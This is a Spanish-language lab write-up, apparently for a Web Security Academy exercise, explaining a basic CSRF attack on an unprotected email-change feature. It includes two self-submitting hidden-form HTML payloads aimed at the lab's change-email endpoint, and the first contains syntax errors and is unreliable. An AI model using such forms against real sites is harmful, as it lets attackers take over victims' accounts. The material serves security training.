 En esta clase abordamos un caso básico de vulnerabilidad CSRF, en el que una funcionalidad sensible —el cambio de correo electrónico— carece de cualquier tipo de protección. Esto nos permite forzar acciones en la cuenta de un usuario autenticado simplemente haciendo que cargue una página con un formulario oculto y autoenviado.

La técnica consiste en construir una petición POST con los mismos parámetros que la funcionalidad legítima, y luego alojarla en el servidor de explotación proporcionado. Al incluir un pequeño script que autoenvía el formulario al cargar la página, conseguimos que la víctima realice la acción sin saberlo, usando su propia sesión activa.

Este laboratorio representa el escenario más sencillo de explotación CSRF, y sienta las bases para los siguientes ejercicios donde se introducirán mecanismos de defensa como tokens, verificación de cabeceras o validaciones del lado servidor.

Solucion
bueno para emepzar lo que seria lo ideal seria copiar el codigo fuente o el formulario en esta ocacion de la pagina que queremos vulnerar
en este caso le vamos a dar click derecho y editar como html
![Pasted image 20250722165509.png](imagenes/Pasted image 20250722165509.png)
para ello tenemos que modificar el codigo eliminando algunas cosas y checando cuales son los formularios en este caso solo tenemos uno y lo podemos ver de esta manera
![Pasted image 20250722170136.png](imagenes/Pasted image 20250722170136.png)
document.forms[0]
y para mandarlo seria asi document.forms[0].submit()

"
<form class="login-form" name="change-email-form" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacketd@hacketd.com">
</form>

<script>
    document.forms(0).submit():
</script>
"
Este podria ser otro

"
<form method="POST" action="https://0a4500280331c6b38165c03600fc0046.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hola@hola.com">
</form>
<script>
        document.forms[0].submit();
</script>
"
